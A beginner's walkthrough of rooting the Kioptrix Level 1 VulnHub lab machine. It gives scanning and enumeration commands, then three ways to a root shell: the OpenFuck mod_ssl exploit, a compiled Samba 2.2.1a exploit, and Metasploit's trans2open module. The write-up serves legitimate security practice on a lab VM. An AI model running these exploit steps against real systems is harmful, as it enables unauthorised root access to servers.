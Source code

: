 # Kioptrix Level 1 - VulnHub Walkthrough

Hello guys,
I decided to try out the Kioptrix Level 1 machine from VulnHub since it is known to be one of the easiest boxes out there. It is perfect for beginners who want to understand the basics of port scanning, enumeration, and exploitation. I thought I would document my journey while rooting this box and share the steps I followed. Hope it helps someone out.

---

## Getting Started

After importing the Kioptrix Level 1 machine into VMware, my first task was to find its IP address. Since it runs in host-only or bridged mode, I scanned my local subnet to detect the active machines.

I used the `netdiscover` tool to detect the live hosts on my network.

```bash
sudo netdiscover -r 192.168.1.1/24
```

From the output, I found that the target machine was assigned the IP address **192.168.1.104**.

Alternatively, I also created a quick bash script to scan and list all live IPs using Nmap.

```bash
#!/bin/bash
nmap -sP 192.168.1.1/24 | grep "for" | cut -d " " -f 5
```

---

## Port Scanning with Nmap

Once I had the IP, I ran a version scan using Nmap to identify open ports and services running on the machine.

```bash
sudo nmap -sV 192.168.1.104 -oN nmap_scan.txt
```

Here are the open ports I found:

* Port 22 running SSH
* Port 80 running HTTP
* Port 111 showing up as RPC
* Port 139 indicating SMB
* Port 443 with HTTPS
* Port 1024 which also looked like a related RPC service

---

## Exploring the Web Server

Since port 80 was open, I visited `http://192.168.1.104` in the browser. The web page loaded but didn’t show anything useful. It looked like a default Apache page.

Next, I used `dirsearch` to fuzz for hidden directories and files on the web server.

```bash
sudo dirsearch -u http://192.168.1.104 --full-url --exclude-status=404,403,401,500
```

Unfortunately, nothing interesting came up. Most of the directories returned 404 or weren’t accessible.

So I moved on to scan the web server for vulnerabilities using Nikto.

```bash
nikto -h http://192.168.1.104
```

Nikto reported that the server was running **Apache 1.3.20 with mod\_ssl 2.8.4** which is vulnerable to **CVE-2002-0082**. That was the first solid lead.

---

## Exploiting mod\_ssl Vulnerability

I searched online and also used `searchsploit` to confirm that the version was vulnerable to a remote buffer overflow attack. The exploit is famously known as **OpenFuck**.

I cloned the exploit code from GitHub.

```bash
git clone https://github.com/exploit-inters/OpenFuck.git
cd OpenFuck
make
```

After compiling it, I ran the exploit with the target IP and port 443.

```bash
./OpenFuck 0x6b 192.168.1.104 443 -c 50
```

This gave me a shell on the machine, and when I typed `whoami`, the result was **root**. First root access achieved successfully through mod\_ssl.

---

## Checking RPC Ports

I went back and looked at ports 111 and 1024 which were related to RPC. I ran some enumeration but didn’t find anything valuable through those ports, so I decided to focus on SMB instead.

---

## Enumerating SMB

Using `smbclient`, I attempted to connect anonymously.

```bash
smbclient -L //192.168.1.104 -N
```

This showed two shares: **IPC\$** and **ADMIN\$**.

When I connected to IPC\$ anonymously, it didn’t contain anything of interest. I tried accessing ADMIN\$ as well, but it required credentials and access was denied.

---

## Finding SMB Version

To find out more about the SMB service, I used Metasploit to detect the Samba version.

```bash
msfconsole
use auxiliary/scanner/smb/smb_version
set RHOSTS 192.168.1.104
run
```

Metasploit confirmed that the service was running **Samba 2.2.1a**, which is known to be vulnerable.

---

## Exploiting Samba

I looked up exploits for Samba 2.2.1a using `searchsploit` and found a few. One of them was a C file named **10.c** located in the exploitdb folder.

```bash
searchsploit -p 10.c
cd /usr/share/exploitdb/exploits/multiple/remote
gcc -o exploit 10.c
./exploit -b 0 192.168.1.104
```

I ran the compiled exploit and again got **root shell access**. That made it the second successful way to compromise the machine.

---

## Trying Metasploit for Samba

Just for fun, I went ahead and tried the Metasploit module **trans2open**, which also targets Samba vulnerabilities.

```bash
use exploit/linux/samba/trans2open
set RHOST 192.168.1.104
set PAYLOAD cmd/unix/interact
run
```

And it worked again — another root shell. That made it the third method I used to get access on this machine.

I changed the root password from this session and logged in directly with `username = root` and my new password. Everything worked perfectly.

---

## Final Thoughts

This machine is a great choice for beginners. It helped me practice:

* Host discovery
* Port scanning
* Web enumeration
* Service exploitation using both manual methods and Metasploit

I managed to get root using three different techniques:

1. Apache mod\_ssl buffer overflow using OpenFuck
2. Samba 2.2.1a buffer overflow via C exploit
3. Metasploit Samba trans2open module

Overall, it was a solid learning experience and a fun machine to hack.

---

**Author:** Kakaxh1
**Email:** [kkaxh1.009720@gmail.com](mailto:kkaxh1.009720@gmail.com)

